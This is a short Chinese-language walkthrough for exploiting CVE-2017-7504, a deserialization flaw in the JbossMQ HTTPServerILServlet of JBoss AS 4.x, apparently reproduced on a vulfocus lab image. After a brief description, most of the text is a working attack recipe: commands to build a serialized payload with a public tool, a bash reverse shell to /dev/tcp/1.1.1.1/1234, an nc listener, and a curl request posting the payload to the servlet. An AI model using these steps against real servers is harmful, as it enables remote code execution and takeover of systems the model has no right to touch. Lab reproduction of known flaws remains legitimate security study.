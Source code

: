 # CVE-2017-7504



## 一、漏洞描述

Red Hat JBoss Application Server 是一款基于JavaEE的开源应用服务器。JBoss AS 4.x及之前版本中，JbossMQ实现过程的JMS over HTTP Invocation Layer的HTTPServerILServlet.java文件存在反序列化漏洞，远程攻击者可借助特制的序列化数据利用该漏洞执行任意代码。

## 二、影响版本

Red Hat JBoss Application Server <=4.x

## 三、利用流程

1 对应镜像名称为:vulfocus/jboss-cve_2017_7504![](C:\Users\he\Desktop\mk\6-22\CVE-2017-7504\1.png)

2 利用工具地址：https://github.com/joaomatosf/JavaDeserH2HC

3 编译并生成序列化数据

```bash
javac -cp .:commons-collections-3.2.1.jar ExampleCommonsCollections1WithHashMap.java
```

4 设置反弹ip与端口

```
java -cp .:commons-collections-3.2.1.jar ExampleCommonsCollections1WithHashMap "bash -i >& /dev/tcp/1.1.1.1/1234 0>&1"
```

5 服务器监听

```
nc -lvp 1234
```

6 发送数据包

```
curl http://127.0.0.1:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @ExampleCommonsCollections1WithHashMap.ser
```

7 可成功反弹shell